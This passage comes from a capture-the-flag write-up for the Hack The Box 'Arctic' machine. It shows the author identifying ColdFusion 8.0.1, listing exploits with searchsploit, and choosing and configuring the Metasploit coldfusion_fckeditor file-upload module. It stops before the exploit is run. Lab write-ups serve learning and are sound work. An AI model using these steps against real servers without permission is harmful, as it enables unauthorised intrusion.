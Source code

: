Nmap doesn't know what port 8500 is, so have a look at that first:

![arctic-website](/assets/images/2020-08-02-22-00-23.png)

Has a 30 second wait every time you click on a page/link on this port.

Looking around I find this:

![arctic-coldfusion](/assets/images/2020-08-02-22-01-06.png)

We now know we are dealing with a ColdFusion based site, let's check searchsploit:

```text
root@kali:~/htb/machines/arctic# searchsploit coldfusion 8.0.1
---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authent | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_loginto | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/ | exploits/cfm/webapps/33168.txt
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Met | exploits/cfm/webapps/16788.rb
```

The bottom one looks good, with file upload and metasploit module it should be easy.

## Gaining Access

Start msf and search:

```text
root@kali:~/htb/machines/arctic# msfconsole
msf5> search coldfusion

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank       Check  Description
   -  ----                                                           ---------------  ----       -----  -----------
   7  exploit/windows/http/coldfusion_fckeditor                      2009-07-03       excellent  No     ColdFusion 8.0.1 Arbitrary File Upload and Execute
```

Let's use the fckeditor module and set options:

```text
msf5 > use exploit/windows/http/coldfusion_fckeditor
msf5 exploit(windows/http/coldfusion_fckeditor) > options

Module options (exploit/windows/http/coldfusion_fckeditor):
   Name           Current Setting                                                             Required  Description
   ----           ---------------                                                             --------  -----------
   FCKEDITOR_DIR  /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm  no        The path to upload.cfm
   Proxies                                                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                     yes       The target address range or CIDR identifier
   RPORT          80                                                                          yes       The target port (TCP)
   SSL            false                                                                       no        Negotiate SSL/TLS for outgoing connections
```